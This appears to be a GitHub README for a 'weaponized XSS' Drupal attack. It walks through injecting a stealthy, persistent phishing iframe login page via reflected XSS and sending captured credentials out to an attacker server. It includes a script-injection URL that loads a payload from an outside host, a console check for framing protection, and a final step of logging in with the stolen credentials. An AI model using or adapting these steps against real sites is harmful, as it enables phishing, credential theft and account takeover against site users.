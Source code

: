 # [Phish] Iframe Login Page

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [test target login page] navigate to target application in web browser

    http://192.168.5.17

2. [test target login page] confirm target login is iframe-able

    *(open developer console and execute following code)*

    ```
    const url = "http://192.168.5.17/user/login";
    const req = new XMLHttpRequest();
    req.open("GET", url, false);
    req.send(null);
    console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
    ```

    * **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. [setup exploit] change payload variable values (`phishLoginDrupal.js`)

    `exfilWebServer` - web server URL for credential exfiltration

    `drupalRoot` - path to Drupal installation on the target system (e.g. `"/path"`)

4. [setup exploit] setup web server (to serve the payload)

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.15/phishLoginDrupal.js></script>
    ```

    * **NOTES**:
      * `192.168.5.17` - target Drupal site
      * `192.168.5.15` - web server hosting payload

6. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

7. [post exploit] attacker logs into target Drupal site using obtained credentials

    http://192.168.5.17/user/login

## Screenshots

* **NOTE**: the screenshot covers steps 3 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Drupal/IframeLogin/screenshots/Drupal_-_iframe_login_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Drupal/IframeLogin/screenshots/Drupal_-_iframe_login_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/8410fe5a-2bad-409a-a52f-479e15ca0dc0
